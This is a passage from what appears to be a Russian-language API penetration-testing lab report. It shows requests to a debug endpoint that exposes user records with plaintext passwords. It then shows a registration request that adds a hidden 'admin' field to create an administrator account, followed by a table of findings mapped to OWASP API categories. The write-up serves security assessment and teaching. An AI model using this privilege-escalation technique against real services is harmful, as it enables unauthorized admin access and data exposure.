 Выполню запрос (GET), информацию "отладки":
<br/>- http://192.168.103.88:8080/users/v1/_debug

```json
{
	"users":
	[
		{"admin":false,"email":"mail1@mail.com","password":"pass1","username":"name1"},
		{"admin":false,"email":"mail2@mail.com","password":"pass2","username":"name2"},
		{"admin":true,"email":"admin@mail.com","password":"pass1","username":"admin"},
		{"admin":false,"email":"email@email.email","password":"password100","username":"user100"}
	]
}
```
<br/>У пользователя есть скрытое свойство 'admin'

Запрос 3. Создам новую учетную запись (запрос POST), добавив свойство 'admin' со значением 'True'
```json
{
	"username": "user101",
	"password": "password101",
	"email": "email1@email.email",
	"admin": "True"
}
```

Ответ 3. Пользователь создан
```json
{
	"message": "Successfully registered. Login to receive an auth token.",
	"status": "success"
}
```
Выполню запрос (GET), информацию "отладки" повторно:
<br/>- http://192.168.103.88:8080/users/v1/_debug

```json
{
	"users":
	[
		{"admin":false,"email":"mail1@mail.com","password":"pass1","username":"name1"},
		{"admin":false,"email":"mail2@mail.com","password":"pass2","username":"name2"},
		{"admin":true,"email":"admin@mail.com","password":"pass1","username":"admin"},
		{"admin":false,"email":"email@email.email","password":"password100","username":"user100"},
		{"admin":true,"email":"email1@email.email","password":"password101","username":"user101"}
	]
}
```

<br/>Учетная запись создана с правами администратора

### Найденные уязвимости

|#|Код|Описание|
|-|-|-|
|1|Раскрытие данных пользователей по адресу<br/>http://192.168.103.88:8080/users/v1/_debug|API3:2019 Excessive Data Exposure|
|2|Возможно создать администратора, заполнив скрытое свойство 'admin'<br/>http://192.168.103.88:8080/users/v1/register|API5:2019 Broken Function Level Authorization|
|3|Можно вносить изменения в свойства, к которым не предполагался доступ<br/>"admin":true|API6:2019 Mass Assignment|
|4|Использование протокола HTTP вместо безопасного HTTPS<br/>[http://192.168.103.88:8080](http://192.168.103.88:8080)|API7:2019 Security Misconfiguration|

---